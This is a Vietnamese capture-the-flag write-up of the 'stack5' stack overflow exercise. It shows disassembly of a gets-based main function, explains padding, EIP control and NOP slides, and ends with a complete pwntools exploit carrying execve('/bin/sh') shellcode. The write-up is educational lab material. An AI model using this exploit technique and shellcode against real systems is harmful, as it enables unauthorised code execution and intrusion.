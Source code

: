 # stack5

## Description

Chạy thử chương trình, nhập input vào thì ko có gì diễn ra. Mình đá thử qua hàm main thì thấy nó khá là ngắn.

```ASM (intel syntax)
   0x080483c4 <+0>:     push   ebp
   0x080483c5 <+1>:     mov    ebp,esp
   0x080483c7 <+3>:     and    esp,0xfffffff0
   0x080483ca <+6>:     sub    esp,0x50
   0x080483cd <+9>:     lea    eax,[esp+0x10]
   0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:    leave  
   0x080483da <+22>:    ret
```

mình đoán bài này sẽ phải chèn shellcode vào chương trình. Dùng vmmap check lại xem phần vùng mình ghi dữ liêu có quyền chạy code hay không.

![vmmap](vmmap.png)

ta thấy phân vùng stack có quyền x. Dùng shellcraft để tạo shellcode. Tiếp theo là tìm padding, dùng cyclic và pwndbg để tìm ra giống những bài trước. Padding 76 bytes. Bây giờ ta cần phải control eip. Khi chúng ta kiểm soát eip, chúng ta cần hướng nó đến ngăn xếp nơi chúng ta có thể đặt mã của riêng mình. Đỉnh của ngăn xếp được trỏ tới bởi SP (hoặc con trỏ ngăn xếp) được gọi là esp trong các máy 32-bit. Đối với mình, esp được đặt tại `0xffffceec`(ASLR off) và bạn có thể kiểm tra vị trí của esp trong gdb. Nếu ta muốn jump đến shellcode của mình, ta cần jump đến giữa ngăn xếp (thay vì trên cùng nơi SP trỏ đến), vì vậy ta thường thêm một phần bù vào vị trí esp trong phần mã khai thác . Mình sử dụng offset là `20*16`. Có một lệnh trong hợp ngữ được là NOP, là 0x90 trong hệ thập lục phân, và NOP là bộ chứa khoảng trắng chuyển eip đến không gian tiếp theo trong bộ nhớ. Nếu chúng ta tạo một "bãi đáp" NOP khổng lồ và hướng eip về phía giữa ngăn xếp, tỷ lệ eip sẽ hạ cánh trên NOP của chúng ta và các NOP sẽ chuyển eip xuống để cuối vào shellcode của chúng ta. Đây thường được gọi là NOP slide, bởi vì eip sẽ hạ cánh trong các NOP và trượt xuống shellcode. 




## Solution

```py
from pwn import *

elf = context.binary = ELF("stack5")

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffceec+21*16)

nop_slide = "\x90"*400

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

io.sendline(payload)

io.interactive()
```



![run](run.png)


